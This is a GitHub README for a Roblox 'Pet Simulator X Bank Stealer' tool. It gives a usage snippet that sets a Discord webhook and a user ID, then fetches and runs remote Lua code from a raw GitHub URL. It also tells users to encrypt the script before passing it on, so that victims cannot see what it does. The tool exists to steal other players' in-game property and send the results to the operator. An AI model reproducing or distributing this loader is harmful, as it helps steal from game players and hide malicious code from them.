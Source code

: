 # Pet Simulator X Bank Stealer
**I am not responsible for any malicious use of this program.**
## Usage

```lua
_G.UserID = 
_G.WebHook = " "
_G.LoadingScreenText = " "
loadstring(game:HttpGet('https://raw.githubusercontent.com/ixhd/PSX-Bank-Stealer/main/aftermath.lua'))()
```

**_G.UserID** as roblox ID

**_G.Webhook** as your Discord Webhook

Please make sure to encrypt the outgoing script!



[Pet Simulator X](https://choosealicense.com/licenses/mit/)

